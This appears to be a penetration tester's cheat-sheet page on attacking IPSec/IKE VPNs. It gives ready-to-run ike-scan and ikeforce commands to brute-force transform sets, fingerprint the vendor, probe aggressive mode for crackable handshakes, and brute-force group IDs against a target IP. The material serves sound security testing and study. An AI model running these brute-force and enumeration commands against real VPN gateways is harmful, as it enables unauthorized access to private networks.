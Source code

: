 ```yaml
---
description: IP Security
---
```


# IPSec




## IKE

* [https://xakep.ru/2015/05/13/ipsec-security-flaws/](https://xakep.ru/2015/05/13/ipsec-security-flaws/)
* [https://book.hacktricks.xyz/pentesting/ipsec-ike-vpn-pentesting](https://book.hacktricks.xyz/pentesting/ipsec-ike-vpn-pentesting)
* [https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/cracking-ike-missionimprobable-part-1/](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/cracking-ike-missionimprobable-part-1/)
* [https://github.com/SpiderLabs/ikeforce](https://github.com/SpiderLabs/ikeforce)



### Get Transform Set

Using `ikeforce.py`:

```
$ sudo python ikeforce.py 10.10.13.37 -a
```

Using ike-scan via brute force. Generate list of all transform-sets:

```
$ for ENC in 1 2 3 4 5 6 7/128 7/192 7/256 8; do for HASH in 1 2 3 4 5 6; do for AUTH in 1 2 3 4 5 6 7 8 64221 64222 64223 64224 65001 65002 65003 65004 65005 65006 65007 65008 65009 65010; do for GROUP in 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18; do echo "$ENC,$HASH,$AUTH,$GROUP" >> trans-dict.txt; done; done; done; done
```

Brute force supported transform-sets:

```
$ while read t; do (echo "[+] Valid trans-set: $t"; sudo ike-scan -M --trans=$t 10.10.13.37) |grep -B14 "1 returned handshake" |grep "Valid trans-set" |tee -a trans.txt; done < trans-dict.txt
Or (for aggressive mode)
$ while read t; do (echo "[+] Valid trans-set: $t"; sudo ike-scan -M -A -P'handshake.txt' -n FAKEID --trans=$t 10.10.13.37) |grep -B7 "SA=" |grep "Valid trans-set" |tee -a trans.txt; done < trans-dict.txt
Or
$ sudo python ikeforce.py -s1 -a 10.10.13.37  # -s1 for max speed
```



### Get Vendor Info

Get information about vendor:

```
$ sudo ike-scan -M --showbackoff [--trans=<TRANSFORM-SET>] 10.10.13.37
```



### Test for Aggressive Mode

Test for aggressive mode ON:

```
$ sudo ike-scan -M -A -P -n FAKEID [--trans=<TRANSFORM-SET>] 10.10.13.37
```



### Brute Force Group ID

If no hash value is returned then brute force is (maybe also) possible:

```
$ while read id; do (echo "[+] Valid ID: $id" && sudo ike-scan -M -A -n $id --trans=<TRANSFORM-SET> 10.10.13.37) | grep -B14 "1 returned handshake" | grep "Valid ID" |tee -a group-id.txt; done < dict.txt
Or
$ sudo python ikeforce.py 10.10.13.37 -e -w wordlists/groupnames.dic -t <TRANSFORM-SET-IN-SEPARATE-ARGS>
```

Dictionaries:

* `/usr/share/seclists/Miscellaneous/ike-groupid.txt`
* `~/tools/ikeforce/wordlists/groupnames.dic`
